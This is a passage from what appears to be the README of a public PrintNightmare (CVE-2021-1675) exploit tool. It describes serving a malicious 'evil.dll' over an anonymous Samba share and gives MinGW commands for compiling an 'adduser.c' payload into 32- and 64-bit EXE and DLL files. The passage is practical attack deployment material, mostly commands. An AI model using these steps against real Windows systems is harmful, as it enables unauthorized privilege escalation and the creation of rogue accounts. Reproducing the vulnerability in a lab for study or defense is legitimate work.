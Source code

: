 This will create a new share called `smb` and serve the files inside `/tmp/share`. It allows for anonymous access, and the local user `nobody` will be used to browse the files.

Then start the Samba service by doing:
```bash
$ sudo service smbd start
```

Suppose your Linux machine has the IP `192.168.1.100` and you wish to serve the `evil.dll`, then the UNC path in this scenario will be `\\192.168.1.100\smb\evil.dll`. 

## Authors
- [@ly4k](https://github.com/ly4k)

## Credits
- [@cube0x0](https://github.com/cube0x0)'s [implementation](https://github.com/cube0x0/CVE-2021-1675)
- [Impacket](https://github.com/SecureAuthCorp/impacket)


## Compiling the adduser.c file
### Using MinGW (tested on macOS, but Linux should work)

- Create a 32-bit EXE file:
`i686-w64-mingw32-gcc -oadduser32.exe adduser.c -lnetapi32`
- Create a 32-bit DLL file:
`i686-w64-mingw32-gcc -shared -oadduser32.dll adduser.c -lnetapi32`
- Create a 64-bit EXE file:
`x86_64-w64-mingw32-gcc -oadduser64.exe adduser.c -lnetapi32`
- Create a 64-bit DLL file:
`x86_64-w64-mingw32-gcc -shared -oadduser64.dll adduser.c -lnetapi32`
